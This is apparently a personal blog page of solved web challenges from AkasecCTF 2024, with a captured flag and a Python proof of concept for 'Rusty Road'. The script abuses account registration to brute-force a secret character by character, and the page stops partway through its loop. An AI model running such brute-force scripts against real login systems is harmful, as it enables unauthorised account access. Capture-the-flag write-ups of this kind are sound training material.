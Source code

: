 ```yaml
---
title: "AkasecCTF web chall ctf 2024 - solved challenges"
excerpt: "Jun 13, 2024 08:00 AM ICT to Jun 13, 2024 04:00 PM ICT"
header:
show_date: true
header:
  teaser: "../assets/images/images-icon/akasec.png"
  teaser_home_page: true
  icon: "https://hackmd.io/_uploads/By3gJwG0h.png"
categories:
  - CTF
tags:
  - CTF
  - Vietnamese
---
```


<p align="center">
<img src="https://l3mnt2010.github.io/assets/images/images-icon/akasec.png">
</p>


## Hacker Community
![image](https://hackmd.io/_uploads/HkRTtSDrA.png)



![image](https://hackmd.io/_uploads/BJUqpxXr0.png)

Flag: ``AKASEC{__W3lc0me_t0_HackerC0mmun1tyy__}``


## Rusty Road

![image](https://hackmd.io/_uploads/B1OEFSPH0.png)


poc:

```
# import requests
#
# register_url = "http://172.206.89.197:9080/register"
# login_url = "http://172.206.89.197:9080/login"
# alphabet = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_{}!@#$%^&*()_+-=,./<>?:"
# username = "lamdepchaiii"
# PASSWORD = "M07H4F7H38167Hr33175JU57816M3"
# index = 71
# loop = 1
#
# while True:
#     data_reg = {
#         "username": username + "a" * loop,
#         "password": "a" * index + "PASSWORD"
#     }
#
#     register_response = requests.post(register_url, data=data_reg)
#     if "Hello" in register_response.text:
#         print("Đăng ký thành công.")
#     else:
#         print(f"Đăng ký thất bại với mã trạng thái: {register_response.status_code}")
#
#     for char in alphabet:
```